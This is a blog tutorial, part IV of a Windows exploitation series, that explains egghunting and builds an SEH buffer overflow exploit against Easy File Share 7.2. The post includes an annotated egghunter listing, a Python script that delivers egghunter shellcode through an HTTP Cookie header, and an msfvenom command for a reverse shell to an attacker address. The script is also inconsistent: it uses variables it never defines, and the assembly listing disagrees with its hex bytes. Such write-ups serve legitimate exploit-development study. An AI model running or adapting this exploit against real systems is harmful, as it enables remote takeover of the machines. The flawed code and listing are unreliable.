 ```yaml
---
layout: post
title:  "Windows Exploitation Part IV"
date:   2020-1-1 00:04:00 +0000
categories: Windows-Exploitation
---
```


# Windows Exploitation Part IV - Egghunting
For this part, we will need to use all the knowledge weve gained in all the parts before this. This particular exploit will be a stack buffer overflow with seh and what we will learn to be an egg and an egghunter.

# What is egghunting?
When we wish to exploit an application with limited buffer space, our shellcode may not be able to execute. Egghunting is a method of storing and retrieving the shellcode within memory that uses a stored word or 'egg'.
We then introduce a small piece of assembly to search the entire stack frame for that egg, since we prepad our shellcode with the egg, once the code finds and jumps to the next instruction, our shellcode should execute.
When running the egghunter, we will notice that windows system resources will spike, this is due to the egghunter searching the entirety of the stack, the spike will subside once the egg is found or the memory is depleted.

# Egghunter assembly
Im going to attempt to make sense of a sample egghunter so hopefully it makes sense. Im not an amazing assembly god but this should make sense to anyone. This particular sample is from the Skape guide which ill reference later.

Assembly breakdown:
```

00000000	6681CAFF0F	or dx, 0xfff	# OR DX with 4096
00000005	42		inc edx		# INCREMENT edx
00000006	52		push edx	# PUSH edx
00000007	6A43		push byte +0x43	# PUSH the byte at +0x43
00000009	58		pop eax		# POP eax
0000000A	CD2E		int 0x2e	# INTERUPT (ntdll)
0000000C	3C05		cmp al, 0x5	# COMPARE AL to 5
0000000E	5A		pop edx		# POP edx
0000000F	74EF		jz 0x0		# Jump if Zero
00000011	B890505090	mov eax, 0x50909050	# MOVE egg to eax
00000016	8BFA		mov edi, edx	# MOVE edx to edi
00000018	AF		scasd		# SCAN(cmp eax with edi)
00000019	75EA		jnz 0x5		# Jump if Not Zero (to 5)
0000001B	AF		scasd		# SCAN(cmp eax with edi)
0000001C	75E7		jnz 0x5		# Jump if Not Zero(to 5)
0000001E	FFE7		jmp edi		# Jump to edi # both ifs
```

# TL;DR
is that this piece of code will slowly increment through the stack space looking for a stored word (commonly 'W00T', as it is highly unlikely to appear normally). You will notice that there are 2 checks, this is because there is instances where the hunter may find parts of itself or other remnants
Two checks means we need to prepend 2 eggs to the beginning of our shellcode. Once the 2 checks are met, the egghunter jumps to the top of our shellcode and we get execution.

# Exploit building
Now that we know a little about how things _should_ work, we should test this out. The application i first learnt to do this method of exploitation on is 'Easy File Share 7.2' and as mentioned before, we will need to use what we learnt about SEH and buffer overflows to work this.



# Putting it all together
Final exploit should look something like this, ive kept all the rubbish from dev in as a reference.
{% highlight python %}
import socket
rhost = "192.168.9.147" # vm local address
rport = 80

max_size = 5000
seh_off = 4059
eax_off = 4183
nseh = "\x90\x90\xeb\x0a" # short jump by 10 bytes over seh
seh = "\xf2\x95\x01\x10" # POP POP RET (0x100195f2)
pad = "A" * (eax_off - len(buffer))
pad += "DDDD"

# pattern buffer was removed.
#buffer = "A" * (max_size - len(buffer))
'''#bad char checks -> \x00 & \x3b are bad
charchexhere
'''
#egg = w00t (*2)
hunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
hunter +="\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.9.135 LPORT=443 -b "\x00\x3b" -f python
#non meterpreter non staged payload


# Setting up our delivery
httprequest = (
"GET / HTTP/1.1\r\n"
"User-Agent: w00tw00t" + buf + "\r\n"
"Host:" + rhost + ":" + str(rport) + "\r\n"
"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
"Accept-Language: en-us\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"Referer: http://" + rhost + "/\r\n"
"Cookie: SESSIONID=6671; UserID=" + buffer + nseh + seh + "A"*8 + hunter + pad + ";PassWD=;\r\n"
"Connection: Keep-Alive\r\n\r\n"
)

# socket setup to send payload to remote host
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[!] sending payload"
s.connect((rhost,rport))
print "[!] Sent!"
s.send(httprequest)
s.close
{% endhighlight %}

# Extra Resources
[Skape - the og egghunting guide](link)
[Corelan Team egghunting guide](link)
[Easy File Share 7.2 download](link)

# Next
Not too sure what to cover next, either going to continue this style and cover ROP / x64 or go deeper and look into more kernel-y stuff.

<br>
Windows Exploitation:
[I](/windows-exploitation/2020/1/1/WinExplP1.html)	[II](/windows-exploitation/2020/1/1/WinExplP2.html)	[III](/windows-exploitation/2020/1/1/WinExplP3.html)	[IV](/windows-exploitation/2020/1/1/WinExplP4.html)	[V](/windows-exploitation/2020/1/1/WinExplP5.html)



